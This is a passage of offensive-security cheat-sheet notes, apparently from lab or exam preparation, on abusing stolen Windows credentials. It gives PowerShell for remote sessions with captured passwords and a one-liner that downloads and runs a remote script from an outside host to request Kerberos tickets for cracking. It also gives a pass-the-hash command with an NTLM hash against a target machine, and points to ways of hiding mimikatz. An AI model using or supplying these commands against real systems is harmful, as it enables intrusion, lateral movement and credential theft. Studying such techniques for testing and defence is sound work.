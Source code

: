 more options to hide mimikatz

`https://www.crowdstrike.com/blog/credential-theft-mimikatz-techniques/`

### Password misues

* if clear text password is obtained start new powershell session

```powershell

# Set the username and password
$username = "Username"
$password = ConvertTo-SecureString -String "Password" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $password

# Create a new PowerShell session with the specified credentials
$session = New-PSSession -ComputerName "RemoteComputerName" -Credential $credential

# Enter the session and execute commands
Enter-PSSession -Session $session

# Example: Run a command within the session
Get-Process

# Exit the session
Exit-PSSession


```

### Request Service Ticket

If name of particular service is know, ticket can be requested for later attempting to crack its hash.

```powershell 

iex(New-Object Net.WebClient).DownloadString('http://192.168.119.181/Request_ST.ps1')

#list all user tickets

klist

```

* after this the service can be accessed

### Pass the Hash

* if hash is obtained from the memmory

```bash

# remote from kali machine

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
